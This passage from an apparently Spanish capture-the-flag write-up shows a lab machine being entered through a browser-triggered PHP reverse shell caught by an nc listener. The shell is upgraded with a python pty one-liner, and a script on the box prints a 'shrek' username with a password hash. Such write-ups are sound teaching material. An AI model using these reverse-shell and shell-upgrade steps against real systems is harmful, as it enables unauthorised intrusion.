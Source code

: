 Y acto seguido lo llamamos desde el navegador: `http://192.168.0.17/files/php-reverse-shell.php`

~~~bash
❯ nc -nlvp 1234
listening on [any] 1234 ...
connect to [192.168.0.24] from (UNKNOWN) [192.168.0.17] 52250
Linux ubuntu 4.4.0-194-generic #226-Ubuntu SMP Wed Oct 21 10:19:36 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 11:25:21 up  1:45,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
~~~

¡Ya estamos dentro! Pero antes de nada, vamos a intentar obtener una terminal interactiva:

~~~bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/home$ export TERM=xterm
export TERM=xterm
www-data@ubuntu:/home$ export SHELL=bash
export SHELL=bash
~~~

Ahora sí, vamos a por la flag de user:

~~~bash
www-data@ubuntu:/$ cd /home
cd /home
www-data@ubuntu:/home$ ls -l        
ls -l
total 8
-rw-r--r-- 1 root  root    43 Nov 26  2020 important.txt
drwxr-xr-x 4 shrek shrek 4096 Jun 15  2021 shrek
www-data@ubuntu:/home$ cat important.txt
cat important.txt
run the script to see the data

/.runme.sh
www-data@ubuntu:/home$ /.runme.sh
/.runme.sh
the secret key
is
trolled
restarting computer in 3 seconds...
restarting computer in 2 seconds...
restarting computer in 1 seconds...
⡴⠑⡄⠀⠀⠀⠀⠀⠀⠀ ⣀⣀⣤⣤⣤⣀⡀
⠸⡇⠀⠿⡀⠀⠀⠀⣀⡴⢿⣿⣿⣿⣿⣿⣿⣿⣷⣦⡀
⠀⠀⠀⠀⠑⢄⣠⠾⠁⣀⣄⡈⠙⣿⣿⣿⣿⣿⣿⣿⣿⣆
⠀⠀⠀⠀⢀⡀⠁⠀⠀⠈⠙⠛⠂⠈⣿⣿⣿⣿⣿⠿⡿⢿⣆
⠀⠀⠀⢀⡾⣁⣀⠀⠴⠂⠙⣗⡀⠀⢻⣿⣿⠭⢤⣴⣦⣤⣹⠀⠀⠀⢀⢴⣶⣆
⠀⠀⢀⣾⣿⣿⣿⣷⣮⣽⣾⣿⣥⣴⣿⣿⡿⢂⠔⢚⡿⢿⣿⣦⣴⣾⠸⣼⡿
⠀⢀⡞⠁⠙⠻⠿⠟⠉⠀⠛⢹⣿⣿⣿⣿⣿⣌⢤⣼⣿⣾⣿⡟⠉
⠀⣾⣷⣶⠇⠀⠀⣤⣄⣀⡀⠈⠻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡇
⠀⠉⠈⠉⠀⠀⢦⡈⢻⣿⣿⣿⣶⣶⣶⣶⣤⣽⡹⣿⣿⣿⣿⡇
⠀⠀⠀⠀⠀⠀⠀⠉⠲⣽⡻⢿⣿⣿⣿⣿⣿⣿⣷⣜⣿⣿⣿⡇
⠀⠀ ⠀⠀⠀⠀⠀⢸⣿⣿⣷⣶⣮⣭⣽⣿⣿⣿⣿⣿⣿⣿⠇
⠀⠀⠀⠀⠀⠀⣀⣀⣈⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠇
⠀⠀⠀⠀⠀⠀⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
    shrek:cf4c2232354952690368f1b3dfdfb24d
~~~
